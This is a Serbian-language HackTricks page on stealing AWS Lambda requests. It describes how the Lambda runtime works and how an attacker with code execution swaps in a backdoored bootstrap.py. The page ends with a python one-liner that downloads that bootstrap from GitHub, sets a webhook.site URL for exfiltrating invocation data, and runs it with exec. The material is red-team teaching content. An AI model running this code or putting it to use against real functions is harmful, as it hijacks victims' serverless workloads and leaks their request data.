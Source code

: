 # AWS - Ukradi Lambda Zahteve

{% hint style="success" %}
Uči i vežbaj AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Uči i vežbaj GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrži HackTricks</summary>

* Proveri [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridruži se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **prati** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podeli hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje** **invokacije** procesu **init**.
2. Proces init sluša na portu **9001** izlažući neke zanimljive krajnje tačke:
* **`/2018-06-01/runtime/invocation/next`** – dobiti sledeći događaj invokacije
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vratiti odgovor handler-a za invokaciju
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vratiti grešku u izvršavanju
3. **bootstrap.py** ima petlju koja dobija invokacije iz init procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje init-u **odgovor**

Napomena da bootstrap učitava korisnički kod kao modul, tako da se svako izvršavanje koda koje obavlja korisnički kod zapravo dešava u ovom procesu.

## Ukradanje Lambda Zahteva

Cilj ovog napada je da se korisnički kod izvrši zloćudnim **`bootstrap.py`** procesom unutar **`bootstrap.py`** procesa koji obrađuje ranjivu zahtev. Na ovaj način, **zloćudni bootstrap** proces će početi da **komunicira sa init procesom** kako bi obradio zahteve dok je **legit** bootstrap **zarobljen** u izvršavanju zloćudnog, tako da neće tražiti zahteve od init procesa.

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legit **`bootstrap.py`** procesa. Tako da napadač može:

* **Poslati lažni rezultat trenutne invokacije init procesu**, tako da init misli da bootstrap proces čeka na više invokacija.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**
* Invoke-id se može dobiti iz steka legit **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovo zahtevati na **`/2018-06-01/runtime/invocation/next`** (kao [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zloćudni **`boostrap.py`** koji će obraditi sledeće invokacije
* U svrhu prikrivanja, moguće je poslati parametre lambda invokacija na C2 kontrolisan od strane napadača i zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zloćudni kod i pokrenuti ga iz trenutne lambda invokacije.

### Koraci Napada

1. Pronaći **RCE** ranjivost.
2. Generisati **zloćudni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršiti** zloćudni bootstrap.

Možete lako izvršiti ove akcije pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija proverite [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
